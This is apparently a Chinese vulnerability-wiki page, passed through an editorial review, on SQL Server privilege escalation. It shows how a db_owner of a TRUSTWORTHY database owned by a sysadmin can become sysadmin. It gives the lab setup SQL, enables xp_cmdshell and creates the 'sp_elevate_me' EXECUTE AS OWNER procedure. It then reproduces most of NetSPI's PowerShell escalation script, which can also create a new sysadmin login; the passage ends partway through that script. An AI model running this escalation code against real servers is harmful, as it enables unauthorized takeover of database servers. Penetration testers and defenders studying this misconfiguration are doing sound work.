# Mssql 受信用数据库提权

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：已有SQL登录、db_owner、TRUSTWORTHY ON，数据库owner为sysadmin；不是默认无凭据漏洞
- 证据范围：详细脆弱实验设置与NetSPI脚本，脚本明确检查owner条件

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 开头漏数据库owner必须有sysadmin权限，完整脚本才说明
- 启用xp_cmdshell并非此SQL角色提权必要条件，应移到可选后续影响/标注风险
- 测试SQLServer版本只有图片，正文范围仅脚本声称2005以上
- Mssql与SQL Server产品目录需合并归一
- 脚本删除辅助存储过程但保留新管理员/角色变更；清理范围需说明
- 无CVE，宜分类为危险配置/授权设计滥用而非单一版本漏洞

### 操作风险与资料使用

- 含落盘脚本或账户创建：会留下持久状态。记录本次生成的路径或账户，测试后清理这些对象并撤销关联令牌；不要删除既有业务对象。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

0x01 前提
---------

前提条件，我们获取sqlserver一个名为MyAppUser01
的用户密码，这个用户对MyTestdb01有db\_owner权限，并且对MyTestdb01受信用，然后我们可以利用这个用户提权到syadmin权限

测试服务器版本



0x02创建用户，受信用数据库
--------------------------

#### 1.创建数据库

    CREATE DATABASE MyTestdb01
    SELECT suser_sname(owner_sid)
    FROM sys.databases
    WHERE name = 'MyTestdb01'



#### 2.创建用户

创建一个测试用户

    CREATE LOGIN MyAppUser01 WITH PASSWORD = 'MyPassword!';



这里可以看到用户为public角色

#### 3.在\"MyTestdb01\"数据库中为\"MyAppUser01\"分配\"db\_owner\"角色,

DB\_owner权限，DB是database的缩写，owner即拥有者的意思。它是指某个数据库的拥有者，它拥有了对数据库的修改、删除、新增数据表，执行大部分存储过程的权限。

    USE MyTestdb01
    ALTER LOGIN [MyAppUser01] with default_database = [MyTestdb01];
    CREATE USER [MyAppUser01] FROM LOGIN [MyAppUser01];
    EXEC sp_addrolemember [db_owner], [MyAppUser01];



#### 4.确认\"MyAppUser01\"已添加为db\_owner

    select rp.name as database_role, mp.name as database_user
    from sys.database_role_members drm
    join sys.database_principals rp on (drm.role_principal_id = rp.principal_id)
    join sys.database_principals mp on (drm.member_principal_id = mp.principal_id)



Myappuser01确实为db\_owner的权限



查看myappusr01的属性也可以看到

#### 5.将\"MyTestdb01\"数据库设置为受信任。

    ALTER DATABASE MyTestdb01 SET TRUSTWORTHY ON



#### 6.下面的查询将返回SQL Server实例中的所有数据库，并且应将\"MyTestdb01 \"和\"MSDB\"数据库标记为可信任。

    SELECT a.name,b.is_trustworthy_on
    FROM master..sysdatabases as a
    INNER JOIN sys.databases as b
    ON a.name=b.name;



\"1\"就是受信用

#### 7.开启xp\_cmdshell

    EXEC sp_configure 'show advanced options',1
    RECONFIGURE
    GO

    EXEC sp_configure 'xp_cmdshell',1
    RECONFIGURE
    GO



0x02 提权
---------

1.使用MyAppUser01用户登录，新建查询，看看我们的权限，这里不要用之前的查询，因为那是sa的查询看看我们的是否为sysadmin



2.新建一个sp\_elevate\_me查询

    USE MyTestdb01
    GO
    CREATE PROCEDURE sp_elevate_me
    WITH EXECUTE AS OWNER
    AS
    EXEC sp_addsrvrolemember 'MyAppUser01','sysadmin'
    GO



3.提权至sysadmin

    USE MyTestdb01
    EXEC sp_elevate_me



再次检查权限



已经是sysadmin权限了，查看用户的属性也可以看到已经到sysadmin权限了



这里可以利用脚本已经一键利用

### poc

> Invoke-SqlServer-Escalate-Dbowner.psm1

    function Invoke-SqlServer-Escalate-DbOwner
    {
        <#
        .SYNOPSIS
           This script can be used escalate privileges from a db_owner to a sysadmin on SQL Server. 

        .DESCRIPTION
           This script can be used escalate privileges from a db_owner to a sysadmin on SQL Server.This is 
           possible when a user has the db_owner role in a trusted database owned by a sysadmin .  
           This script can accept SQL Credentials or use the current user's trusted connection.

        .EXAMPLE
           Getting sysadmin as a user that has the db_owner role in a trusted database owned by a sysadmin.

           PS C:\> Invoke-SqlServer-Escalate-DbOwner -SqlUser myappuser -SqlPass MyPassword! -SqlServerInstance SQLServer1\SQLEXPRESS
           [*] Attempting to Connect to SQLServer\SQLEXPRESS as myappuser...
           [*] Connected.
           [*] Enumerating accessible trusted databases owned by sysadmins...
           [*] 3 accessible databases found.
           [*] Checking if current user has db_owner role in any of them...
           [*] myappuser as db_owner role in 2 databases.
           [*] Attempting to evelate myappuser to sysadmin via master database...
           [*] Success! - myappuser is now a sysadmin.
           [*] All done.

        .EXAMPLE
           Creating new sysadmin, using a user that has the db_owner role in a trusted database owned by a sysadmin.
           
           PS C:\> Invoke-SqlServer-Escalate-DbOwner -SqlUser myappuser -SqlPass MyPassword! -SqlServerInstance SQLServer1\SQLEXPRESS -newuser eviladmin -newPass MyPassword!
           [*] Attempting to Connect to SQLServer1\SQLEXPRESS as myappuser...
           [*] Connected.
           [*] Enumerating accessible trusted databases owned by sysadmins...
           [*] Found 2 trusted databases owned by a sysadmin.
           [*] Checking if myappuser the has db_owner role in any of them...
           [*] myappuser has db_owner role in 1 of the databases.
           [*] Attempting to create and add eviladmin to the sysadmin role via the MyAppDb database...
           [*] Success! - eviladmin is now a sysadmin.
           [*] All done.

        .LINK
           http://www.netspi.com

        .NOTES
           Author: Scott Sutherland - 2014, NetSPI
           Version: Invoke-SqlServer-Escalate-DbOwner.psm1 v1.0
           Comments: Should work on SQL Server 2005 and Above.
        #>

      [CmdletBinding()]
      Param(
        
        [Parameter(Mandatory=$false,
        HelpMessage='Set SQL Login username.')]
        [string]$SqlUser,
        
        [Parameter(Mandatory=$false,
        HelpMessage='Set SQL Login password.')]
        [string]$SqlPass,

        [Parameter(Mandatory=$false,
        HelpMessage='Set SQL Login username.')]
        [string]$newuser,
        
        [Parameter(Mandatory=$false,
        HelpMessage='Set SQL Login password.')]
        [string]$newPass,

        [Parameter(Mandatory=$true,
        HelpMessage='Set target SQL Server instance.')]
        [string]$SqlServerInstance
        
      )

        # -----------------------------------------------
        # Connect to the sql server
        # -----------------------------------------------
        
        # Create fun connection object
        $conn = New-Object System.Data.SqlClient.SqlConnection
        
        # Set authentication type and create connection string    
        if($SqlUser -and $SqlPass){   
              
            # SQL login
            $conn.ConnectionString = "Server=$SqlServerInstance;Database=master;User ID=$SqlUser;Password=$SqlPass;"
            [string]$ConnectUser = $SqlUser
        }else{
              
            # Trusted connection
            $conn.ConnectionString = "Server=$SqlServerInstance;Database=master;Integrated Security=SSPI;"
            $UserDomain = [Environment]::UserDomainName
            $Username =  [Environment]::UserName
            $ConnectUser = "$UserDomain\$Username"
           
        }

        # Status User
        write-host "[*] Attempting to Connect to $SqlServerInstance as $ConnectUser..."

        # Attempt database connection
        try{
            $conn.Open()
            write-host "[*] Connected." -foreground "green"
        }catch{
            $ErrorMessage = $_.Exception.Message
            write-host "[*] Connection failed" -foreground "red"
            write-host "[*] Error: $ErrorMessage" -foreground "red"  
            Break
        }

        # -----------------------------------------------
        # Create data tables for later
        # -----------------------------------------------

        # Create data table to house list of trusted databases owned by a sysadmin  
        $IsSysAdmin = New-Object System.Data.DataTable
        $TableDatabases = New-Object System.Data.DataTable 
        $TableDBOwner = New-Object System.Data.DataTable 
        $CheckforSysadmin = New-Object System.Data.DataTable 

        # -----------------------------------------------
        # Check if user is already a sysadmin
        # -----------------------------------------------
        $QueryElevate = "select is_srvrolemember('sysadmin') as IsSysAdmin"
        $cmd = New-Object System.Data.SqlClient.SqlCommand($QueryElevate,$conn)
        $results = $cmd.ExecuteReader() 
        $IsSysAdmin.Load($results) 
        $conn.Close() 
        $IsSysAdmin | Select-Object -First 1 IsSysAdmin | foreach {

            $Checksysadmin = $_.IsSysAdmin
            if ($Checksysadmin -ne 0){
                    write-host "[*] You're already a sysadmin - no escalation needed." -foreground "green"
                    Break             
            }
        }

        # -----------------------------------------------
        # Get a list of trusted databases owned by a sysadmin 
        # -----------------------------------------------       

        # Setup query to grab a list of accessible databases
        $QueryDatabases = "SELECT d.name AS DATABASENAME 
        FROM sys.server_principals r 
        INNER JOIN sys.server_role_members m ON r.principal_id = m.role_principal_id 
        INNER JOIN sys.server_principals p ON 
        p.principal_id = m.member_principal_id 
        inner join sys.databases d on suser_sname(d.owner_sid) = p.name 
        WHERE is_trustworthy_on = 1 AND d.name NOT IN ('MSDB') and r.type = 'R' and r.name = N'sysadmin'"

        # User status
        write-host "[*] Enumerating accessible trusted databases owned by sysadmins..."

        # Query the databases and load the results into the TableDatabases data table object
        $conn.Open()
        $cmd = New-Object System.Data.SqlClient.SqlCommand($QueryDatabases,$conn)
        $results = $cmd.ExecuteReader()
        $TableDatabases.Load($results)

        # Check if any accessible databases where found 
        if ($TableDatabases.rows.count -eq 0){

            write-host "[*] No accessible databases found." -foreground "red"
            Break
        }else{
            $DbCount = $TableDatabases.rows.count      
            write-host "[*] Found $DbCount trusted databases owned by a sysadmin." -foreground "green"
        }

        # -------------------------------------------------
        # Check if current user has db_owner role in any of them
        # -------------------------------------------------
        if ($TableDatabases.rows.count -ne 0){  

            write-host "[*] Checking if $ConnectUser has the db_owner role in any of them..."
            $TableDatabases | foreach {

            [string]$CurrentDatabase = $_.databasename                    
            
            # Setup query to grab a list of databases
            $QueryProcedures = "use $CurrentDatabase;select db_name() as db,rp.name as database_role, mp.name as database_user
                from [$CurrentDatabase].sys.database_role_members drm
                join [$CurrentDatabase].sys.database_principals rp on (drm.role_principal_id = rp.principal_id)
                join [$CurrentDatabase].sys.database_principals mp on (drm.member_principal_id = mp.principal_id) 
                where rp.name = 'db_owner' and mp.name = SYSTEM_USER"      

                # Query the databases and load the results into the TableDatabase data table object
                $cmd = New-Object System.Data.SqlClient.SqlCommand($QueryProcedures,$conn)
                Try{
                    $results2 = $cmd.ExecuteReader()
                    $TableDBOwner.Load($results2)
                }
                Catch {}
                
            }
        }

        # -------------------------------------------------
        # Attempt to escalate privileges
        # -------------------------------------------------

        # Get number database wwhere the user is db_owner
        $DbOwnerRoleCount = $TableDBOwner.rows.count 

        if ($DbOwnerRoleCount -ne 0) {      
            
            # Set db to be used for escalating privs # fix this
            $TableDBOwner | Select-Object db -first 1 | foreach {
                $ElevateOnDb = $_.db            
            }

            # Add new user if provided
            if ($newuser -and $newPass){
                $AddUser = "CREATE LOGIN $newuser WITH PASSWORD = '$newPass'"
                $UsertoElevate = $newuser
                $Message = " create and"
            }else{
                $AddUser = ""
                $UsertoElevate = $ConnectUser
                $Message = ""
            }

            # Status user
            write-host "[*] $ConnectUser has db_owner role in $DbOwnerRoleCount of the databases." -foreground "green"
            write-host "[*] Attempting to$Message add $UsertoElevate to the sysadmin role via the $ElevateOnDb database..."      

            # Set authentication type and create connection string for the targeted database 
            if($SqlUser -and $SqlPass){   
               
                # SQL login
                $conn.Close()
                $conn.ConnectionString = "Server=$SqlServerInstance;Database=$ElevateOnDb;User ID=$SqlUser;Password=$SqlPass;"
                [string]$ConnectUser = $SqlUser
            }else{
              
                # Trusted connection
                $conn.Close()
                $conn.ConnectionString = "Server=$SqlServerInstance;Database=$ElevateOnDb;Integrated Security=SSPI;"
                $UserDomain = [Environment]::UserDomainName
                $Username =  [Environment]::UserName
                $ConnectUser = "$UserDomain\$Username"
           
            }

        # Create stored procedures to escalate privileges
            $conn.Open()
            $QueryElevate = "CREATE PROCEDURE sp_elevate_me
            WITH EXECUTE AS OWNER
            AS
            begin
            $AddUser
            EXEC sp_addsrvrolemember '$UsertoElevate','sysadmin'
            end"
        $cmd = New-Object System.Data.SqlClient.SqlCommand($QueryElevate,$conn)
        $results = $cmd.ExecuteReader() 
            $conn.Close()         

        # Execute stored procedures to escalate privileges
            $conn.Open()
            $QueryElevate = "EXEC sp_elevate_me"
        $cmd = New-Object System.Data.SqlClient.SqlCommand($QueryElevate,$conn)
        $results = $cmd.ExecuteReader() 
            $conn.Close() 

        # Remove stored procedure
            $conn.Open()
            $QueryElevate = "drop proc sp_elevate_me"
        $cmd = New-Object System.Data.SqlClient.SqlCommand($QueryElevate,$conn)
        $results = $cmd.ExecuteReader() 
            $conn.Close() 

        # Verify that privilege escalation works
            If (-Not ($newuser -and $newPass)){
                $conn.Open()
                $QueryElevate = "select is_srvrolemember('sysadmin') as IsSysAdmin"
                $cmd = New-Object System.Data.SqlClient.SqlCommand($QueryElevate,$conn)
                $results = $cmd.ExecuteReader() 
                $CheckforSysadmin.Load($results) 
                $conn.Close() 

                $CheckforSysadmin | Select-Object -First 1 IsSysAdmin | foreach {

                    $Checksysadmin2 = $_.IsSysAdmin
                    if ($Checksysadmin2 -ne 0){
                        write-host "[*] Success! - $UsertoElevate is now a sysadmin." -foreground "green" 
                    }else{
                        write-host "[*] Sorry, something failed, no sysadmin for you." -foreground "red"
                    }
                }    
             }       
        }else{
